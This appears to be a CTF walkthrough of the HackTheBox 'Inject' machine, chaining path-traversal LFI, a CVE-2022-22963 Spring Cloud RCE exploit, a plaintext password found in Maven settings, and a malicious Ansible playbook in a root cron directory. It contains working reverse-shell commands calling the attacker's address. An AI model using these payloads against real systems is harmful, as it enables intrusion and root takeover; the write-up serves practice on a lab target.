




# CTF Penetration Testing

## Platform: HackTheBox

### Machine: [Inject](https://www.hackthebox.com/machines/Inject)


- Machine type:  Linux
- Machine difficulty: 🟩 Easy (4.0)

> **Inject** is an Easy Difficulty Linux machine featuring a website with file upload functionality vulnerable to Local File Inclusion (LFI). By exploiting the LFI vulnerability, files on the system can be enumerated, revealing that the web application uses a specific version of the `Spring-Cloud-Function-Web` module susceptible to `CVE-2022-22963`. Exploiting this vulnerability grants an initial foothold as the `frank` user. Lateral movement is achieved by further file enumeration, which discloses a plaintext password for `phil`. A cronjob running on the machine can then be exploited to execute a malicious `Ansible` playbook, ultimately obtaining a reverse shell as the `root` user.

#### Skills Learned

- **Local File Inclusion (LFI)**
- **CVE-2022-22963**
- **Credentials Harvesting**
- **Creating Malicious Ansible Playbooks**

#### Tools Used

Linux:
- `nmap`
- `whatweb`
- `curl`
- `ffuf`
- `searchsploit`
- `pspy`

#### Machine Writeup

```
┌──(nabla㉿kali)-[~]
└─$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.144  netmask 255.255.254.0  destination 10.10.14.144

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ echo -e '10.129.228.213\tinject.htb' | sudo tee -a /etc/hosts

10.129.228.213	inject.htb
```

```
┌──(nabla㉿kali)-[~]
└─$ ports=$(nmap -p- inject.htb -T4 --min-rate=1000 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
```

```
┌──(nabla㉿kali)-[~]
└─$ echo $ports

22,8080
```

```
┌──(nabla㉿kali)-[~]
└─$ nmap -Pn -p$ports -sSV inject.htb -T4

[SNIP]

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
8080/tcp open  nagios-nsca Nagios NSCA
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
┌──(nabla㉿kali)-[~]
└─$ whatweb http://inject.htb:8080

http://inject.htb:8080 [200 OK] Bootstrap, Content-Language[en-US], Country[RESERVED][ZZ], Frame, HTML5, IP[10.129.228.213], Title[Home], YouTube
```









```
┌──(nabla㉿kali)-[~]
└─$ curl -s -I http://inject.htb:8080/show_image?img=InvalidPath | head -n1

HTTP/1.1 500
```

```
┌──(nabla㉿kali)-[~]
└─$ ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://inject.htb:8080/show_image?img=FUZZ -ic -fc 500 -t 50

[SNIP]

../../../../../../etc/passwd [Status: 200, Size: 1986, Words: 17, Lines: 38, Duration: 9ms]

[SNIP]
```

**Local File Inclusion (LFI)**

```
┌──(nabla㉿kali)-[~]
└─$ curl "http://inject.htb:8080/show_image?img=../../../../../../var/www"

html
WebApp
```

```
┌──(nabla㉿kali)-[~]
└─$ curl "http://inject.htb:8080/show_image?img=../../../../../../var/www/WebApp"

.classpath
.DS_Store
.idea
.project
.settings
HELP.md
mvnw
mvnw.cmd
pom.xml
src
target
```

```
┌──(nabla㉿kali)-[~]
└─$ curl "http://inject.htb:8080/show_image?img=../../../../../../var/www/WebApp/pom.xml"

<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
	</parent>
	<groupId>com.example</groupId>
	<artifactId>WebApp</artifactId>
	<version>0.0.1-SNAPSHOT</version>
	<name>WebApp</name>
	<description>Demo project for Spring Boot</description>
	<properties>
		<java.version>11</java.version>
	</properties>

[SNIP]

<dependency>
			<groupId>org.springframework.cloud</groupId>
			<artifactId>spring-cloud-function-web</artifactId>
			<version>3.2.2</version>
		</dependency>

[SNIP]
```

**CVE-2022-22963**

```
┌──(nabla㉿kali)-[~]
└─$ searchsploit spring cloud --json | jq '.RESULTS_EXPLOIT[] | {Title, Codes, Path}'

[SNIP]

{
  "Title": "Spring Cloud 3.2.2 - Remote Command Execution (RCE)",
  "Codes": "CVE-2022-22963",
  "Path": "/usr/share/exploitdb/exploits/java/webapps/51577.py"
}
```

```
┌──(nabla㉿kali)-[~]
└─$ cat /usr/share/exploitdb/exploits/java/webapps/51577.py

# Exploit Title: Spring Cloud 3.2.2 - Remote Command Execution (RCE)
# Date: 07/07/2023
# Exploit Author: GatoGamer1155, 0bfxgh0st
# Vendor Homepage: https://spring.io/projects/spring-cloud-function/
# Description: Exploit to execute commands exploiting CVE-2022-22963
# Software Link: https://spring.io/projects/spring-cloud-function
# CVE: CVE-2022-22963

[SNIP]

parser.add_argument("--url", type=str, help="http://172.17.0.2:8080/functionRouter", required=True)
parser.add_argument("--command", type=str, help="ping -c1 172.17.0.1", required=True)

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ python3 /usr/share/exploitdb/exploits/java/webapps/51577.py --help
usage: 51577.py [-h] --url URL --command COMMAND

options:
  -h, --help         show this help message and exit
  --url URL          http://172.17.0.2:8080/functionRouter
  --command COMMAND  ping -c1 172.17.0.1
```

```
┌──(nabla㉿kali)-[~]
└─$ python3 /usr/share/exploitdb/exploits/java/webapps/51577.py --url http://inject.htb:8080/functionRouter --command "id"

[SNIP]

{
  "timestamp": "2025-07-01T08:28:04.398+00:00",
  "status": 500,
  "error": "Internal Server Error",
  "message": "EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String", ❌
  "path": "/functionRouter"
}
```

```
┌──(nabla㉿kali)-[~]
└─$ echo -n "bash -i >& /dev/tcp/10.10.14.144/1337 0>&1" | base64

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNDQvMTMzNyAwPiYx
```

```
┌──(nabla㉿kali)-[~]
└─$ nc -lvnp 1337

listening on [any] 1337 ...

[CONTINUE]
```

```
┌──(nabla㉿kali)-[~]
└─$ python3 /usr/share/exploitdb/exploits/java/webapps/51577.py --url http://inject.htb:8080/functionRouter --command "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNDQvMTMzNyAwPiYx}|{base64,-d}|{bash,-i}"

{
  "timestamp": "2025-07-01T08:39:10.134+00:00",
  "status": 500,
  "error": "Internal Server Error",
  "message": "EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String", ❌
  "path": "/functionRouter"
}
```

```
[CONTINUE]

connect to [10.10.14.144] from (UNKNOWN) [10.129.228.213] 34940
bash: cannot set terminal process group (781): Inappropriate ioctl for device
bash: no job control in this shell

frank@inject:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'

frank@inject:/$
```

```
frank@inject:/$ id

uid=1000(frank) gid=1000(frank) groups=1000(frank)
```

**Credentials Harvesting**

```
frank@inject:/$ ls -la /home/frank

total 28
drwxr-xr-x 5 frank frank 4096 Feb  1  2023 .
drwxr-xr-x 4 root  root  4096 Feb  1  2023 ..
lrwxrwxrwx 1 root  root     9 Jan 24  2023 .bash_history -> /dev/null
-rw-r--r-- 1 frank frank 3786 Apr 18  2022 .bashrc
drwx------ 2 frank frank 4096 Feb  1  2023 .cache
drwxr-xr-x 3 frank frank 4096 Feb  1  2023 .local
drwx------ 2 frank frank 4096 Feb  1  2023 .m2
-rw-r--r-- 1 frank frank  807 Feb 25  2020 .profile
```

```
frank@inject:/$ cat /home/frank/.m2/settings.xml

<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

```yaml
credentials:
    username: phil
    password: "DocPhillovestoInject123"
    host: localhost
    notes: valid only for local login on inject.htb
```

```
frank@inject:/$ su phil

Password: DocPhillovestoInject123
phil@inject:/$
```

```
phil@inject:/$ cat /home/phil/user.txt

99159*************************** 🚩
```

```
phil@inject:/$ id

uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
```

```
phil@inject:/$ find /usr/local -maxdepth 3

[SNIP]

/usr/local/bin/ansible-parallel
```

**Creating Malicious Ansible Playbooks**

```
phil@inject:~$ ./pspy64

[SNIP]

2025/07/01 09:37:00 CMD: UID=0     PID=1      | /sbin/init auto automatic-ubiquity noprompt 
2025/07/01 09:38:01 CMD: UID=0     PID=8321   | sleep 10 
2025/07/01 09:38:01 CMD: UID=0     PID=8320   | /bin/sh -c sleep 10 && /usr/bin/rm -rf /opt/automation/tasks/* && /usr/bin/cp /root/playbook_1.yml /opt/automation/tasks/ 
2025/07/01 09:38:01 CMD: UID=0     PID=8319   | /usr/sbin/CRON -f 
2025/07/01 09:38:01 CMD: UID=0     PID=8318   | /usr/sbin/CRON -f 
2025/07/01 09:38:01 CMD: UID=0     PID=8317   | /usr/sbin/CRON -f 
2025/07/01 09:38:01 CMD: UID=0     PID=8324   | /usr/bin/python3 /usr/local/bin/ansible-parallel /opt/automation/tasks/playbook_1.yml 
2025/07/01 09:38:01 CMD: UID=0     PID=8323   | /usr/sbin/CRON -f 
2025/07/01 09:38:01 CMD: UID=0     PID=8322   | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml 
2025/07/01 09:38:01 CMD: UID=0     PID=8325   | /bin/sh -c /usr/bin/rm -rf /var/www/WebApp/src/main/uploads/* 
2025/07/01 09:38:01 CMD: UID=0     PID=8326   | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml 
2025/07/01 09:38:02 CMD: UID=0     PID=8328   | /bin/sh /sbin/ldconfig -p 
2025/07/01 09:38:02 CMD: UID=0     PID=8329   | 
2025/07/01 09:38:02 CMD: UID=0     PID=8330   | ssh -o ControlPersist 
2025/07/01 09:38:02 CMD: UID=0     PID=8332   | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml 
2025/07/01 09:38:02 CMD: UID=0     PID=8333   | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml 
2025/07/01 09:38:02 CMD: UID=0     PID=8334   | /bin/sh -c echo ~root && sleep 0 
2025/07/01 09:38:02 CMD: UID=0     PID=8335   | sleep 0 
2025/07/01 09:38:02 CMD: UID=0     PID=8336   | 
2025/07/01 09:38:02 CMD: UID=0     PID=8337   | /bin/sh -c ( umask 77 && mkdir -p "` echo /root/.ansible/tmp `"&& mkdir "` echo /root/.ansible/tmp/ansible-tmp-1751362682.5950544-8332-83852816054953 `" && echo ansible-tmp-1751362682.5950544-8332-83852816054953="` echo /root/.ansible/tmp/ansible-tmp-1751362682.5950544-8332-83852816054953 `" ) && sleep 0

[SNIP]
```

```
phil@inject:/$ ls -la /opt/automation/tasks/

total 12
drwxrwxr-x 2 root staff 4096 Jul  1 09:40 .
drwxr-xr-x 3 root root  4096 Oct 20  2022 ..
-rw-r--r-- 1 root root   150 Jul  1 09:40 playbook_1.yml
```

```
phil@inject:/$ cat /opt/automation/tasks/playbook_1.yml

- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
```

```
phil@inject:/$ cat << EOF > /opt/automation/tasks/playbook_2.yml
- hosts: localhost
  tasks:
    - name: Checking webapp service
      shell: bash -c 'bash -i >& /dev/tcp/10.10.14.144/7331 0>&1'
EOF
```

```
phil@inject:/$ cat /opt/automation/tasks/playbook_2.yml

- hosts: localhost
  tasks:
    - name: Checking webapp service
      shell: bash -c 'bash -i >& /dev/tcp/10.10.14.144/7331 0>&1'
```

```
phil@inject:/$ ls -la /opt/automation/tasks/

total 16
drwxrwxr-x 2 root staff 4096 Jul  1 09:50 .
drwxr-xr-x 3 root root  4096 Oct 20  2022 ..
-rw-r--r-- 1 root root   150 Jul  1 09:50 playbook_1.yml
-rw-rw-r-- 1 phil phil   130 Jul  1 09:50 playbook_2.yml
```

```
┌──(nabla㉿kali)-[~]
└─$ nc -lvnp 7331

listening on [any] 7331 ...

[CONTINUE]
```

```
[CONTINUE]

connect to [10.10.14.144] from (UNKNOWN) [10.129.228.213] 34596
bash: cannot set terminal process group (9305): Inappropriate ioctl for device
bash: no job control in this shell

root@inject:/opt/automation/tasks# 
```

```
root@inject:/opt/automation/tasks# id

uid=0(root) gid=0(root) groups=0(root)
```

```
root@inject:/opt/automation/tasks# cat /root/root.txt

adb83*************************** 🚩
```


---
---
